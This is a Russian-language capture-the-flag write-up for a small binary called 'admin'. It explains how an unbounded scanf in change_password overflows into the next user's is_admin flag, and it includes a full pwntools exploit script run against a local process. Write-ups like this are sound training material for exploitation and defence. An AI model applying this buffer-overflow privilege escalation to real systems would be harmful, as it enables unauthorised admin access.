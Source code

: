 # Solution
В функции `change_password` scanf не проверяет размер читываемого буфера, поэтому можно переписать переменную `is_admin` следующего в списке пользователя на `1` (и в целом на что угодно) и получить флаг.
Стоит обратить внимание, что scanf при чтении строки всегда ставит в конце нулевой байт, поэтому нужно добавить `admin` в конец, чтобы не перезаписать имя следующего пользователя.

```py
from pwn import *

io = process("./admin")

def choice(c: int):
    io.sendlineafter(b"> ", str(c).encode())

def register(name: bytes, password: bytes):
    choice(1)
    io.sendlineafter(b"name: ", name)
    io.sendlineafter(b"password: ", password)

def login(name: bytes, password: bytes):
    choice(2)
    io.sendlineafter(b"name: ", name)
    io.sendlineafter(b"password: ", password)

def admin_panel():
    choice(3)

def change_password(old_password: bytes, new_password: bytes):
    choice(4)
    io.sendlineafter(b"current password: ", old_password)
    io.sendlineafter(b"new password: ", new_password)

register(b"test", b"test")
register(b"admin", b"admin")

login(b"test", b"test")
change_password(b"test", b"A" * 20 + p32(1) + b"admin")
# + b"admin" need to prevent scanf's overwriting username of next user

login(b"admin", b"admin")
admin_panel()

io.interactive()
```
